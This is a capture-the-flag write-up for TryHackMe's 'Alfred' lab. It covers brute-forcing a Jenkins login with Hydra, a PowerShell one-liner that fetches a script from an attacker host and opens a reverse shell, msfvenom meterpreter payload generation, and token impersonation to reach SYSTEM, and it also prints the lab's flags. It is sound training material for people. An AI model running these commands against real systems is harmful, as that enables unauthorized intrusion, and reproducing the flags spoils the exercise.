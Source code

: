 # [Alfred - TryHackMe](https://tryhackme.com/room/alfred) | Cyanyde

Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

## Credits

- Created by [try hack me](https://tryhackme.com/p/tryhackme)
- Room type: premium

## Initial Access

### How many ports are open?

- Scan ports and versions with Nmap
    - `nmap -sV -sC -T5 <target ip> -oN jenkinsNmap`
        - **-sV** flag to scan service version
        - **-sC** flag to enable default script scan
        - **-T5** to set timing template to fastest (no rate limit in this room)
        - **-oN <filename>** to put normal output into file

> There are **3** TCP ports open

### What is the username and password for the login panel? (in the format username:password)

- The site hosted on port 8080 is a login page
- There is also a /robots.txt directory

```
# we don't want robots to click "build" links
User-agent: *
Disallow: /
```

- Use Hydra to brute force the admin password for the portal
    - Use a proxy to find the format of the login page (Firefox or BurpSuite will work fine)
        - Format is j_username=^USER^&j_password=^PASS^
    - `hydra -l admin -P /usr/share/wordlists/rockyou.txt <target ip> http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid" -s 8080`

> The username and password combination that is returned is **admin:admin**

### What is the user.txt flag?

- Find a way to execute code from inside the portal
    - Jenkins is a server that allows developers to build, test, and deploy their codebase
    - There is currently an existing project in the Jenkins portal named "project"
    - The project allows you to add Windows batch commands as part of the build instructions
- Set up a reverse shell to the machine
    - powershell iex (New-Object Net.WebClient).DownloadString('http://<attack machine ip>:<attack machine port 1>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attack machine ip> -Port <attack machine port 2>
    - Click *apply* and *save* after adding reverse shell command in Jenkins build instructions
    - Before building (and running the reverse shell) on the Jenkins server, set up listeners on attack machine - **Important note**: In the above, attack machine port 1 should be replaced by the port of the *HTTP Web Server* and attack machine port 2 should be replaced by the port of the *Netcat listener*
        - HTTP Server to host initial reverse shell script
            - Use this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) (options are already configured in the one-liner)
            - Navigate to the folder the script is downloaded to on the attack machine
            - `python3 -m http.server <port>` to serve everything in that folder (`python -m SimpleHTTPServer <attack machine port 1> for older Python versions)
        - Netcat Listener to receive reverse shell connection
            - `nc -lvnp <attack machine port 2>` to listen on the port set in the powershell one-liner (may need to use `ncat -lvnp <attack machine port 2>` for newer distros)
    - Build the "project" in Jenkins that will reach out to pull the reverse shell
- Once connected to machine, change to `C:\Users\` directory and fine the flag in *bruce*'s desktop folder

> <details><summary>The flag is </summary>79007a09481963edf2e1321abd9ae2a0</summary>

## Switching Shells

- Privilege escalation will be much easier with a meterpreter shell (hosted through metasploit)
- Generate meterpreter reverse shell
    - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<attack machine IP> LPORT=<attack machine port> -f exe -o hehe.exe` to generate reverse shell with meterpreter
    - **REMINDER**: The port must be different than the one used for the original reverse shell

> The shell generated should have a final size of **73802**

## Privilege Escalation

- In the original shell, use `whoami /priv` to list available privileges

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeDebugPrivilege                Debug programs                            Enabled 
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
```

- This is the output (trimmed to show enabled privileges only)
- Use *incognito* module in metasploit to impersonate tokens
    - Use `load incognito` in *meterpreter* shell to load module
    - `list_tokens -g` to list available tokens
    - `impersonate_token "BUILTIN\Administrators"` to impersonate the built-in Admin account token
- Migrate to a privileged process
    - Use `migrate <pid>` on any process with NT AUTHORITY\SYSTEM

### What is the output when you run the *getuid* command?

> <code>getuid</code> returns **NT AUTHORITY\SYSTEM**

### Read the root.txt file located at C:\Windows\System32\config

> <details><summary>The root flag is </summary>dff0f748678f280250f25a45b8046b4a</details>
